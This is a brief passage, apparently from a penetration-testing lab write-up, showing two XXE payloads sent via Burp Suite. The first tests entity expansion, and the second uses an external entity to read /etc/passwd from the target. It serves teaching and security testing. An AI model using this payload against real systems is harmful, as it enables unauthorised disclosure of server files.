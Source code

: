 ```xml
<!DOCTYPE email [
<!ENTITY payload "XXE TEST">
]>

[SNIP]

<email>
	&payload;
</email>
```

![Burp Suite - POST XXE Attempt 1](./assets/screenshots/web_attacks_local_file_disclosure_burpsuite_post_xxe_attempt_1.png)

```xml
<!DOCTYPE email [
<!ENTITY payload SYSTEM "file:///etc/passwd">
]>

[SNIP]

<email>
	&payload;
</email>
```

![Burp Suite - POST XXE Attempt 2](./assets/screenshots/web_attacks_local_file_disclosure_burpsuite_post_xxe_attempt_2.png)